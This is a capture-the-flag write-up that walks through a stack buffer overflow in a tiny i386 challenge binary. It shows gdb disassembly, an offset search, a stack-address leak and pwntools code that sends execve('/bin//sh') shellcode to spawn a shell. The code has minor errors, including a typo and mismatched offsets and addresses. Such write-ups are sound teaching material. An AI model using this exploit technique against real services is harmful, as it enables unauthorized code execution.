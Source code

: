 # start

We start by disassembling the program with gdb, and checking the `_start` function.
Let's analyze what we have:


```
gef➤  i functions
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
gef➤  disas _start
Dump of assembler code for function _start:
   0x08048060 <+0>:     push   esp
   0x08048061 <+1>:     push   0x804809d    // push into the stack the return funtion address
   0x08048066 <+6>:     xor    eax,eax      // clear registers
   0x08048068 <+8>:     xor    ebx,ebx
   0x0804806a <+10>:    xor    ecx,ecx
   0x0804806c <+12>:    xor    edx,edx
   0x0804806e <+14>:    push   0x3a465443   // push 5 * 4 = 20 bytes
   0x08048073 <+19>:    push   0x20656874   // each of those lines is 4 chars
   0x08048078 <+24>:    push   0x20747261   // use cyberchef for conversion
   0x0804807d <+29>:    push   0x74732073
   0x08048082 <+34>:    push   0x2774654c
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4        // write
   0x0804808f <+47>:    int    0x80          // interrupt write
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3        // read
   0x08048097 <+55>:    int    0x80          // interrupt read
   0x08048099 <+57>:    add    esp,0x14      // stack gets popped of 20 bytes
   0x0804809c <+60>:    ret
End of assembler dump.
```

We notice that the stack gets popped of 20 bytes. We can write in memory
more that 20 bytes, so that the stack pointer will point to our input.

We can check this by generating a pattern:
```
pattern create 128
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
```

We send this pattern as the input and check the value of the stack pointer:
```
i r
> esp = 0x61616166 ("faaa"?)
pattern search faaa
> Found at offset 17 (little-endian search) likely
```

So we can overwrite the return function address. We need to change this address to
the address of our shell code in the stack, so we need to get this one.

We can return to an arbitrary instruction already in the program. If we return where
the characters get printed, but after they are loaded in memory, we are leaking
the stack. Let's do this:

```python
payload = b'A' * 20 + p32(0x08048087);
arget.sendlineafter(":", payload)
esp = target.recv()[:4]
log.info("ESP Found: ", hex(u32(esp)))
```

Where "0x0848087" is the address of the instruction, padded with 20 bytes. Now that
we have the stack pointer (esp), we can send anoter payload with the custom shell code:
```python
shell = asm(shellcraft.i386.execve("/bin//sh"))
payload2 = b'A'*20 + p32(esp+20) + shell
target.send(payload2)
target.interactive()
```

And that's it! Notice we incremented the esp by 20 since we had added padding before it.

